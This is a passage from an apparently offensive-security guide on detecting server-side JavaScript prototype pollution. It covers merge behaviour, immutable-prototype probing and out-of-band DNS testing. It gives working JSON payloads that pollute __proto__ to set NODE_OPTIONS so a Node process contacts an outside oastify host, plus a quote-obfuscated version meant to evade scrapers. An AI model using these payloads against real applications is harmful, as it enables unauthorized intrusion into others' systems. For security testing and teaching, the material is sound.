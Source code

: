 Relevant merge behaviour:

```js
function assignMergeValue(object, key, value) {
  if ((value !== undefined && !eq(object[key], value)) ||
      (value === undefined && !(key in object))) {
    baseAssignValue(object, key, value);
  }
}
```

## Immutable prototype

Assigning a primitive to prototype properties is often a no-op, while assigning an object to certain prototype levels throws. This difference can be used to detect pollution:

```js
({}).__proto__.__proto__ = {}   // may throw type exception
({}).__proto__.__proto__ = "x"  // no-op, does not throw
```

This technique helps detect whether assignment into the prototype actually happened.

## OAST (Out-Of-Band Application Security Testing)

Using sinks that interact out-of-band (DNS) — e.g., CPU/process related sinks — you can craft a payload that causes a DNS interaction if a polluted prototype controls process args or environment. Example payload (conceptual):

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id.oastify.com"
  }
}
```

To evade scrapers, double-quote obfuscation works cross-platform:

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
  }
}
```

---

## Detecting JavaScript engines

